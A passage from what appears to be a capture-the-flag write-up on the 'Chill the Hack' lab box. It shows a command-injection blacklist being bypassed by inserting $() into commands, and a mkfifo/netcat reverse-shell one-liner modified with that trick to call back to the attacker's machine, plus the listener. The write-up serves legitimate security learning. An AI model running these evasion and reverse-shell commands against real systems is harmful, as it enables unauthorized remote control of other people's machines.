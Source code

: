 Hmmm, seems like there is a blacklist that blocks certain commands, like `ls`.

Roaming around and making a little bit of research, I have come across this : [bypassing filter with $()](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#bypass-with--1)

Basically, instead of using `ls`, we would use `l$()s`.

It has the same effect, but doesn't match the string in the blacklist.

<img src="/../assets/chillhack_ls.png" />

BOOM, it worked. Now all we have got to do is get a reverse shell !

### getting a reverse shell

Basically, how it works is we (as the attacker) are going to listen for incoming connections at a certain port.

And since the application is vulnerable to command injection, we could use the input as a gate to connect to ourselves, providing an interactive shell.

Let's grab a reverse shell command from [here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and modify it to bypass the filtering.

You would usually use netcat , chaining it with '-e' to provide the `shell`, but `-e` can sometimes be unsupported.

We can overcome this by opening a `fifo pipe` which will basically be our gateway to make `inter process communication`

You can read more about it [here](https://www.tutorialspoint.com/inter_process_communication/inter_process_communication_named_pipes.htm)

Or you can just grab the command from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), but it doesn't hurt to know how it works.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Let's modify it to fit our needs.

- adding $() to each command
- changing the ip address to point to our machine :
  - type `ip a` , then locate `tun0` interface, and copy the ip address

```bash
r$()m /tmp/f;mk$()fifo /tmp/f;c$()at /tmp/f|/bin/sh -i 2>&1|n$()c 10.8.104.101 1234 >/tmp/f
```

Now, before executing the command, we need to start listening at port 1234, remember?

```bash
──(yariss㉿Kali-VM)-[~/boxes/Chill the Hack]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
```
